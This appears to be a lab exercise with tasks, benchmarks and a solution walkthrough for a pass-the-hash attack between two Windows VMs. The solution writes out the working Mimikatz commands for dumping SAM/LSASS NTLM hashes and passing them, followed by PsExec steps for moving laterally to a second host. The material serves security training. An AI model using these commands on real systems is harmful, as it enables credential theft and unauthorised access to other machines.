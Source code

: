 # Use Mimikatz To Perform A Pass-The-Hash Attack
Pass-the-Hash is a potent technique attackers use to access remote servers or services by leveraging the NTLM or LanMan hash of a user's password. This vulnerability affects all Windows machines


## References
- [module - sekurlsa](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa) by Benjamin Delpy
- [module - lsadump](https://github.com/gentilkiwi/mimikatz/wiki/module-~-lsadump) by Benjamin Delpy
- [Performing Pass-the-Hash with Mimikatz](https://blog.stealthbits.com/passing-the-hash-with-mimikatz) by Jeff Warren
- [Pass the Hash With Mimikatz: Complete Guide](https://www.stationx.net/pass-the-hash-with-mimikatz/) by Richard Deszo on StationX
- [Resolve "Access is Denied" using PSExec with a Local Admin Account](https://www.brandonmartinez.com/2013/04/24/resolve-access-is-denied-using-psexec-with-a-local-admin-account/) by Brandon Martinez
- [Fixed: Couldn't Install PsExec Service Access Is Denied on Windows](https://www.anyviewer.com/how-to/couldnt-install-psexec-service-access-is-denied-2578.html) by Ellie on AnyViewer
- [Unofficial Guide to Mimikatz & Command Reference](https://adsecurity.org/?page_id=1821) by Active Directory Security


## Tasks
- Prepare two Windows machines that can communicate with each other over SMB and RPC (Target 1 and Target 2)
- On each machine, create a local administrator user with the same username and password
- On Target 1, open Mimikatz and use the appropriate command to dump NTLM hashes from the LSASS and\or SAM database
- Record the NTLM hash for the local administrator user
- Use Mimikatz's "sekurlsa::pth" command to pass-the-hash and spawn a new cmd.exe session on Target 1 using the NTLM hash
- In the spawned cmd.exe session, execute ipconfig to display the IP address of Target 1
- From the spawned cmd.exe session, use PSEXEC with the NTLM hash to authenticate into Target 2
- Once authenticated into Target 2, execute ipconfig using PSEXEC to display its IP address
- Confirm successful authentication as the new user on Target 2 by executing whoami from the spawned remote shell. Ensure that whoami returns the username corresponding to the passed NTLM hash


## Benchmarks
- You can execute ipconfig from the spawned cmd.exe session on Target 1 to validate the IP address and ensure network connectivity
- You can execute ipconfig using PSEXEC from the spawned cmd.exe session on Target 2 to validate its IP address
- Upon executing whoami from the spawned remote shell on Target 2, it returns the username corresponding to the passed NTLM hash, confirming successful authentication
- You have not used a password to connect to the remote host at any point



## Solutions
1. In both Target 1 and 2, open a Command Prompt with administrator privileges, and create a new local user with the same username and password on each machine. To create a new local user with password, use `net user adminuser adminpassword /add`. To add the user to the administrator group, use `net localgroup administrators adminuser /add`. To verify the user was created, use `net localgroup administrators`.
2. Download Mimikatz on Target 1 from [this link](https://github.com/gentilkiwi/mimikatz/archive/master.zip) and download PsExec from [this link](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)
3. If PsExec cannot be launched and used between different version of Windows, just clone the Windows 7 VM used to standardise all the settings
4. To test PsExec, navigate to its folder and launch it in the command prompt with administrator privileges. Since the Windows 7 VM used in this task is 64-bit, use `psexec64 \\<IP_address_of_target_2> ipconfig` and see if it works. The screenshot below shows a working PsExec:
   ![image](https://github.com/user-attachments/assets/3b16df83-f00f-45ff-bda9-802d32967918)
5. Open PowerShell with administrator privileges and navigate to the folder where Mimikatz is stored, then run Mimikatz. Use each of the commands below in order
   ```
   privilege::debug
   token::elevate
   lsadump:sam
   sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<NTLM_hash>
   ```
   - `privilege::debug` is used for getting debug rights (this or Local System rights is required for many Mimikatz commands). By default, the Administrators group has Debug rights. Debug still has to be “activated” by running “privilege::debug”
   - `token::elevate` is used for impersonating a token. Used to elevate permissions to SYSTEM (default) or find a domain admin token on the box using the Windows API
   - `lsadump::sam` is used for getting the SysKey to decrypt SAM entries (from registry or hive). The SAM option connects to the local Security Account Manager (SAM) database and dumps credentials for local accounts. It requires System or Debug rights. Note that the domain name nad the NTLM hash will appear here
   - `sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<NTLM_hash>` is used to pass the hash. By default, this will spawn a command prompt
   ![image](https://github.com/user-attachments/assets/60fb6a56-30a6-4c92-a2c8-090f6db18742)
6. In the spawned command prompt, enter `ipconfig` to confirm it is still on Target 1 (local VM). Then navigate to the PsExec folder. Use `psexec64 \\<IP_address_of_target_2> cmd` to spawn another command prompt
7. In this new spawned command prompt, type `ipconfig` and `hostname` to confirm the IP address and hostname belongs to Target 2





